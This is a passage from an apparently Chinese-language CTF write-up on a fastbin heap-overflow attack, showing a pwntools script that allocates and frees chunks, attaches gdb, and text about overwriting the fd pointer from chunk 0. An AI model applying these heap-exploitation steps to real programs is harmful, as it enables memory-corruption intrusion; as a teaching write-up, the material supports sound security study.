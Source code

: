 ```

def free(p,index):
    p.sendlineafter(b'Command: ',b"3")
    p.sendlineafter(b'Index: ',str(index))

def dump(p,index):
    p.sendlineafter(b'Command: ',b"4")
    p.sendlineafter(b'Index: ',str(index))

def main():
    p = conn()

    gdb_script = f'''
    '''

    allocate(p,0x10) # chunk 0 
    allocate(p,0x10) # chunk 1
    allocate(p,0x10) # chunk 2
    allocate(p,0x10) # chunk 3
    allocate(p,0x80) # chunk 4

    free(p,1)
    free(p,2)

    gdb.attach(p,gdbscript = gdb_script)
    pause()

    p.interactive()


if __name__ == "__main__":
    main()
```

运行，在新出来的gdb终端输入命令：

```
heap
```

[![]()](undefined)

正如我们分析的一样，fastbin中已经有两个chunk了，且根据fd指针能知道该单链表的情况如下：

[![image]()](undefined)

## 4、通过堆溢出修改fd指针

先保持上面的动态调试不退出，我们先来看看溢出需要填充什么数据

我们设计的是chunk0用于溢出，那么就从chunk0开始看

[![]()](undefined)
